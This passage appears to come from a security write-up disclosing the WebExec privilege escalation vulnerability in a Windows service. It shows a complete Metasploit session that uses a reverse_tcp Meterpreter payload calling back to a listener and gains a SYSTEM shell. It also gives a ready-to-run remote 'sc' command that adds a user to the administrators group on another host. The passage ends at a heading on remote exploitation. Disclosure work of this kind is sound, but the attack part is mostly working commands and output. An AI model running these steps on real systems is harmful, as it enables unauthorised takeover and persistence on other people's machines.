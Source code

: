 And this all works as an unprivileged user!

Jeff wrote a [local module for Metasploit](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/exploits/windows/local/webexec.rb) to exploit the privilege escalation vulnerability. If you have a non-SYSTEM session on the affected machine, you can use it to gain a SYSTEM account:

```

meterpreter > getuid
Server username: IEWIN7\IEUser

meterpreter > background
[*] Backgrounding session 2...

msf exploit(multi/handler) > use exploit/windows/local/webexec
msf exploit(windows/local/webexec) > set SESSION 2
SESSION => 2

msf exploit(windows/local/webexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(windows/local/webexec) > set LHOST 172.16.222.1
msf exploit(windows/local/webexec) > set LPORT 9001
msf exploit(windows/local/webexec) > run

[*] Started reverse TCP handler on 172.16.222.1:9001
[*] Checking service exists...
[*] Writing 73802 bytes to %SystemRoot%\Temp\yqaKLvdn.exe...
[*] Launching service...
[*] Sending stage (179779 bytes) to 172.16.222.132
[*] Meterpreter session 2 opened (172.16.222.1:9001 -> 172.16.222.132:49574) at 2018-08-31 14:45:25 -0700
[*] Service started...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## Remote exploit

We actually spent over a week knowing about this vulnerability without realizing that it could be used remotely! The simplest exploit can still be done with the Windows <tt>sc</tt> command. Either create a session to the remote machine or create a local user with the same credentials, then run <tt>cmd.exe</tt> in the context of that user (<tt>runas /user:newuser cmd.exe</tt>). Once that's done, you can use the exact same command against the remote host:

```
c:\>sc \\10.0.0.0 start webexservice a software-update 1 net localgroup administrators testuser /add
```

The command will run (and a GUI will even pop up!) on the other machine.

## Remote exploitation with Metasploit
